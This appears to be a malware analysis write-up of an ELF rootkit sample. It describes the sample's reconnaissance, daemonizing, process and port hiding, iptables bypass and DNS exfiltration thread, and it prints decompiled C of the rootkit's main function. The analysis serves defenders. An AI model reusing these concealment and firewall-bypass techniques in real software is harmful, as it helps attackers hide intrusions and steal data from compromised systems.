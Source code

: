 ## Rootkit 101
### Initital approach

<h4>Thanks to <a href="https://twitter.com/KorbenD_Intel">KorbenD</a> for sharing the sample recently detected by Thor (<a href="https://www.virustotal.com/gui/file/cc1455e3a479602581c1c7dc86a0e02605a3c14916b86817960397d5a2f41c31/details">here</a>).</h4>
<h4>The ELF rootkit begins to initiate for hiding the process to user. This begins to get the system informations by recon actions (computername, user, mac, interfaces informations...) and begin as daemon for running in the background. This performs several hide ways for hiding the activity to user and also bypass the iptables for launch the main thread and UDP subthread (DNS exfiltration). If the attribute of the elf isn't good, this modify theirs attributes of the owner by lchown call.</h4>

```cpp
undefined8 main(undefined8 argc, char **argv)
{
 undefined8 *puVar1;
 uint16_t uVar2;
 uint32_t uVar3;
 undefined8 uVar4;
 char **s;
 undefined8 var_24h;
 int32_t var_18h;
 int64_t var_14h;
 
 var_24h._0_4_ = (int32_t)argc;
 if ((int32_t)argc < 2) {
  var_14h._0_4_ = 0;
  while ((int32_t)var_14h < (int32_t)var_24h) {
   uVar4 = strlen(argv[(int32_t)var_14h]);
   memset(argv[(int32_t)var_14h], 0, uVar4);
   var_14h._0_4_ = (int32_t)var_14h + 1;
  }
  puVar1 = (undefined8 *)*argv;
  *puVar1 = 0x68655f697363735b;
  *(undefined2 *)(puVar1 + 1) = 0x5d;
  get_mac((char *)MAGIC);
  daemon(1);
  init_crc_table();
  uVar3 = getpid();
  HidePidPort(1, (uint64_t)uVar3);
  var_18h = 0;
  while (var_18h < 3) {
   HidePidPort(3, (uint64_t)*(uint32_t *)(DecRemotePort + (int64_t)var_18h * 4));
   var_18h = var_18h + 1;
  }
  HidePidPort(3, 0x1776);
  HidePidPort(7, 0x1776);
  uVar3 = inet_addr(_DNS_ADDR);
  bypass_iptables(0xd, (uint64_t)uVar3);
  uVar2 = htons(0x1776);
  bypass_iptables(0xe, (uint64_t)uVar2);
  uVar2 = htons(0x1776);
  bypass_iptables(0xf, (uint64_t)uVar2);
  pthread_create((int64_t)&var_24h + 4, 0, MainThread, 0);
  pthread_create((int64_t)&var_24h + 4, 0, UdpThread, 0);
  pause();
 } else {
  if ((int32_t)argc == 2) {
   lchown(argv[1], 0x95b62d85, 0xf100cbff);
  }
 }
 return 0;
}
```